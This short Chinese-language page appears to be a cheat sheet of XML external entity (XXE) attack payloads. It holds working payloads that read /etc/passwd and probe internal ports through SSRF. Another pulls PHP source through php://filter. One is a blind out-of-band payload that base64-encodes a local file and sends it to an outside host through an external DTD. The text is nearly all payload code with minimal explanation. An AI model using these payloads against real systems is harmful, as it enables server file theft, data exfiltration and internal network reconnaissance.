 # XXE payload

1、**有回显—读服务器文件：**

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
        <!ENTITY content SYSTEM "file:///etc/passwd">
        <!--<!ENTITY content SYSTEM "file:///c://Windows//System32//test.txt">-->
]>
<x>&content;</x>
```

2、**无回显-读取文件** 

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.30.130:8081/test.dtd">
        %dtd;
        %send;
]>

test.dtd:
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.30.130:8081/?data=%file;'>">
%payload;
```

2、**SSRF—探测端口：**

适用于有回显和blind xxe，也是外部一般实体：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

    <!ENTITY content SYSTEM "http://10.165.89.150:88">]>

<name>&content;</name>
```

3、**如果是php的话，可以用php的filter协议直接读出文件**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY>
<!ENTITY goodies SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]> 
<creds>&goodies;</creds>
```

